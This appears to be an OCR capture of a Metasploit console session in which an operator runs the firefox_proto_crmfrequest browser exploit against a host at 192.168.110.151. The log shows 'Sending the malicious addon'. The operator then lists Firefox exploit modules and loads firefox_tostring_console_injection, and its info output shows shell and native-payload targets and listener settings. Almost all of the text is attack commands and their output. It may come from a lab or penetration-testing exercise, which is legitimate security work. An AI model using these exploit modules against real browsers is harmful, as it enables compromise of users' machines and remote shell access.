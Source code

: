 msf exploit(firefox_proto_crmfrequest) > sessions -i

Active sessions
===============

No active sessions.

msf exploit(firefox_proto_crmfrequest) > 
[*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information.
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response.
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon

msf exploit(firefox_proto_crmfrequest) > use exploit/
[*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information.
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response.
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon

[-] Failed to load module: exploit/
msf exploit(firefox_proto_crmfrequest) > use exploit/multi/browser/firefox_
use exploit/multi/browser/firefox_escape_retval
use exploit/multi/browser/firefox_pdfjs_privilege_escalation
use exploit/multi/browser/firefox_proto_crmfrequest
use exploit/multi/browser/firefox_proxy_prototype
use exploit/multi/browser/firefox_queryinterface
use exploit/multi/browser/firefox_svg_plugin
use exploit/multi/browser/firefox_tostring_console_injection
use exploit/multi/browser/firefox_webidl_injection
use exploit/multi/browser/firefox_xpi_bootstrapped_addon
msf exploit(firefox_proto_crmfrequest) > use exploit/multi/browser/firefox_tostring_console_injection 
msf exploit(firefox_tostring_console_injection) > info

       Name: Firefox toString console.time Privileged Javascript Injection
     Module: exploit/multi/browser/firefox_tostring_console_injection
   Platform: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2013-05-14

Provided by:
  moz_bug_r_a4
  Cody Crews
  joev <joev@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Universal (Javascript XPCOM Shell)
  1   Native Payload

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  CONTENT                   no        Content to display inside the HTML <body>.
  Retries  true             no        Allow the browser to retry the module
  SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT  8080             yes       The local port to listen on.
  SSL      false            no        Negotiate SSL for incoming connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)
